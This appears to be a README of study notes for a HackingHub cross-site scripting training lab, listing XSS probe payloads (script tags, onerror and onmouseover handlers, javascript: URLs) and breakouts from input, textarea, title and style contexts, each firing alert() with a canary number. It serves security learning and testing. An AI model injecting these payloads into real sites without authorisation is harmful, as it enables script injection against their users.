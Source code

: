 # hackinghub  

## xss  
[https://app.hackinghub.io/hubs/nbbc-xss](https://app.hackinghub.io/hubs/nbbc-xss)  

### basic xss  

The number `19628397001` in the examples below is just a random number that can be used as a [canary](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/settings/canary) to search proxy history for the value.  

Try to start with simple payload like `<h1>19628397001` to see what happens.  

```
<script>alert(19628397001)</script>
<script>alert(19628397001)
<script>alert(19628397001);//</script>
<script>confirm(19628397001);//</script>
<img src=xxxxx onmouseover=alert(19628397001)>
<img src=xxxxx onerror=alert(19628397001)>
<a href=javascript:alert(19628397001)>xsstest</a>
<a href=javascript:alert(19628397001)>xsstest
<iframe src=javascript:alert(19628397001)>
<object data="data:text/html,<script>alert(19628397001)</script>"></object>
<script src="data:text/javascript,alert(19628397001)"></object>
</p><h1><u/onmouseover=alert(1)>19628397001
```  

### contexts  

#### input example  

value inside an input:  
`<input value="19628397001">`  

try to break out with a payload like...    
```
test"><script>alert(19628397001)</script>
```  

or use an event like this...  
```
test" onmouseover=alert(19628397001);//
```  

#### textarea example   

value inside a textarea:  
`<textarea>19628397001</textarea>`  

try to break out with a payload like...  
```
test</textarea><img/src=x onerror=alert(19628397001)>
```  

#### title example  

value inside a title:  
`<title>Welcome, 19628397001</title>`  

try to break out with a payload like...  
```
test</title><img/src=x onerror=alert(19628397001)>
```  

#### style tag in head section  
expected value format `#FFFFFF`, but example below input value (`19628397001`):  
```HTML
<head>
        <style>
                body {
                        background-color: 19628397001;
                }
        </style>
</head>
```  

try to break out with a payload like...  
```
#FFFFFF;}</style><script>alert(19628397001)</script><!--
```
